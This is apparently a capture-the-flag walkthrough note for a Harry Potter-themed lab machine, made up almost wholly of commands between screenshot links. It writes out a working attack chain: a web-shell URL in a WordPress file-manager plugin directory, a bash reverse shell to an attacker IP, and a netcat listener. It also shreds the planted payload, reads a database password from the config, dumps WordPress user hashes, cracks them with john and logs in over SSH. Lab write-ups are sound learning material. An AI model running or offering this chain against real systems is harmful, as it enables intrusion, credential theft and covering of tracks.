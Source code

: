 ![[Pasted image 20230914133029.png]]
```java
192.168.153.153/blog/wp-content/plugings/wp-file-manager/lib/files/payloads.php?cmd=bash -c "bash -i > %26 /dev/tcp/192.168.153.152/443 0>%261"
```
![[Pasted image 20230914133342.png]]
```java
nc -nlvp 443
```
![[Pasted image 20230914133403.png]]
```java
script /dev/null -c bash
```
![[Pasted image 20230914133501.png]]
```java
stty raw -echo; fg
```
![[Pasted image 20230914133547.png]]
```java
ls 
shred -zun 10 -v payloads.php
```
![[Pasted image 20230914134236.png]]
```java
ls
cd hagrid98
cat horcrux1.txt
```
![[Pasted image 20230914134356.png]]
```java
echo base64 -d; echo
```
![[Pasted image 20230914134836.png]]
```java
cat /etc/wordpress/config-default.php
```
![[Pasted image 20230914135240.png]]
```java
mysql -uroot -p

mySecr3tPass
```
![[Pasted image 20230914135431.png]]
```java
show databases;
```
![[Pasted image 20230914135844.png]]
```java
describe wp-users;
```
![[Pasted image 20230914135946.png]]
```java
select * from wp_users;
```
![[Pasted image 20230914140102.png]]
```java
john -w:/usr/share/wordlist/rockyou.txt hash
```
![[Pasted image 20230914141452.png]]
```java
ssh hagrid98@192.168.153.153
```